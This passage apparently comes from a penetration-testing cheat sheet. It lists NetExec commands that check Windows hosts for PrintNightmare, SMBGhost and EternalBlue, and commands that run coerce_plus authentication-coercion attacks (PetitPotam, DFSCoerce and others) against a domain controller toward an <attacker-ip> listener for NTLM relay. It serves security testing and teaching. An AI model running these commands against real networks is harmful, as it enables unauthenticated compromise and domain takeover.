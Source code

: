 ```bash
# Check for the vulnerability
nxc smb <ip> -u '' -p '' -M printnightmare
```
{% endtab %}

{% tab title="SMBGhost" %}
SMBGhost (CVE-2020-0796) is a critical vulnerability in the `SMBv3` protocol that lets an attacker remotely execute code on vulnerable Windows systems by sending specially crafted packets, allowing **full control without authentication**. It targets any `SMBv3`-enabled host on the network, including DCs.

```bash
# Check for the vulnerability
nxc smb <ip> -u '' -p '' -M smbghost
```
{% endtab %}

{% tab title="MS17-010" %}
MS17-010 is a critical Windows SMB vulnerability, aka **EternalBlue**, that allows remote attackers to **execute code on vulnerable systems without authentication** by exploiting flaws in `SMBv1`. It targets any SMBv1-enabled Windows host, including DCs, enabling full system takeover.

```bash
# Check for the vulnerability
nxc smb <ip> -u '' -p '' -M ms17-010
```
{% endtab %}
{% endtabs %}

Checks for coerce vulnerabilities. By default the `LISTENER` ip will be set to `localhost`, so no traffic will appear on the network.

{% tabs %}
{% tab title="coerce_plus" %}
The `coerce_plus` module includes:

* **PetitPotam**: Coerces a DC to authenticate to an attacker via `MS-EFSRPC`, enabling NTLM relay attacks for domain takeover.
* **DFSCoerce**: Tricks a DC into authenticating to the attacker via the Distributed File System service, enabling relay attacks.
* **PrinterBug**: Exploits Windows Print Spooler to coerce authentication and enable NTLM relay attacks.
* **MSEven**: Uses the Microsoft Exchange’s Web Services to force authentication, facilitating NTLM relay and privilege escalation.
* **ShadowCoerce**: Coerces a domain host to authenticate by abusing the Shadow Copy service, enabling relay attacks.

```bash
# Check for the vulnerabilities
$ nxc smb dc01 -u <user> -p <pass> -M coerce_plus
```

If one or more are found, set the listener:

{% code overflow="wrap" %}
```bash
# Run all exploit methods at once
nxc smb <ip> -u '' -p '' -M coerce_plus -o LISTENER=<attacker-ip> ALWAYS=true

# Run a specific method
$ nxc smb dc01 -u <user> -p <pass> -M coerce_plus -o M=DFSCoerce L=<attacker-ip> ALWAYS=true
```
{% endcode %}
{% endtab %}
{% endtabs %}
